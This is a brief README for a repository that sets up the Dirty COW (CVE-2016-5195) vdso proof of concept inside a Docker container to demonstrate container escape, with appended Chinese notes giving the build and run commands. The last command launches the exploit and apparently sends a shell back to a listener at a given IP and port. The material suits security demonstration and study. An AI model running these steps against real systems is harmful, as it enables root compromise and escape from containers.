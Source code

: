 # dirtycow-docker-vdso

This repository is the necessary bits to get the vdso based Dirty Cow POC working inside a docker container. All the really exciting stuff was done by Scumjr, see his POC repo over at https://github.com/scumjr/dirtycow-vdso.

There is also a writeup and youtube video of using the above exploit to break out of a docker container on my blog:

  https://blog.paranoidsoftware.com/dirty-cow-cve-2016-5195-docker-container-escape/
  
  
  cheers!

  ----------------------------------------------------------------------------------------------------------------------------
#启动容器
cd dirtycow-docker-vdso/

sudo docker-compose run dirtycow /bin/bash

#进入容器，漏洞利用
cd /dirtycow-vdso/

make

./0xdeadbeef 192.168.172.136:1234
